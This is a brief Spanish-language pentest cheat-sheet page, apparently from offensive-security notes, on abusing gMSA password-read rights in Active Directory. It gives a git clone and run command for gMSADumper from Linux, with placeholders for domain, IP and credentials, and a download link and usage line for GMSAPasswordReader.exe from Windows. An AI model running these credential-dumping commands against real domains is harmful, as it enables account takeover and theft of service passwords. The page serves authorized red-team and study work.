# Info

# Abusandolo desde linux
### GSAMDumper

#### Instalación

    git clone https://github.com/micahvandeusen/gMSADumper.git

#### Uso

    python3 gMSADumper.py -d {domain} -l {ip} -u {user} -p {pass}

# Abuso desde windows

### GMSAPasswordReader

#### Descarga

    https://github.com/expl0itabl3/Toolies/blob/master/GMSAPasswordReader.exe

#### Uso
    GMSAPasswordReader.exe --accountname {target}


